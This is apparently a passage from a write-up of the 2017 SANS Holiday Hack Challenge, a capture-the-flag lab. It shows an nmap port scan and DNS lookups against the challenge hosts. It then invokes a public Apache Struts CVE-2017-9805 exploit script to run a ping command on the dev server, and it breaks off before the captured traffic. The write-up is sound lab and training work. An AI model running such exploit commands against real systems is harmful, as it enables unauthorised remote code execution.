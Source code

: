 Full ports didn't get me any farther:

```
root@kali:~# nmap l2s.northpolechristmastown.com -p0-

Starting Nmap 7.60 ( https://nmap.org ) at 2017-12-16 20:01 EST
Nmap scan report for l2s.northpolechristmastown.com (35.185.84.51)
Host is up (0.056s latency).
Other addresses for l2s.northpolechristmastown.com (not scanned):
rDNS record for 35.185.84.51: 51.84.185.35.bc.googleusercontent.com
Not shown: 65532 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
443/tcp  open   https
3389/tcp closed ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 710.85 seconds
```



## Winter Wonder Landing

> Visit the North Pole and Beyond at the Winter Wonder Landing Level to collect the first page of The Great Book using a giant snowball.

Is how the Hack Challenge begins... Well, clearly I didn't read that closely enough, as I actually started my investigation over in the "Winconceivable: The Cliffs of Windsanity"

## Breaking in to Letters to Santa Application

- Looked in l2s.northpolechristmastown.com web source code, and discovered a "dev.northpolechristmastown.com" server, which was running an Apache Struts application.

```
root@kali:~# host l2s.northpolechristmastown.com
l2s.northpolechristmastown.com has address 35.185.84.51
root@kali:~# host dev.northpolechristmastown.com
dev.northpolechristmastown.com has address 35.185.84.51
```

- Followed hints from Sparkle Redberry in "North Pole and Beyond", which pointed me towards: https://pen-testing.sans.org/blog/2017/12/05/why-you-need-the-skills-to-tinker-with-publicly-released-exploit-code which included a link to some simple exploit code I was able to make use of https://github.com/chrisjd20/cve-2017-9805.py

- That allowed me to run:

```
python cve-2017-9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c 'ping -c 2 xx.xx.xx.xx'
```

Where `xx.xx.xx.xx` is my local host where I was running a tcpdump of the traffic:
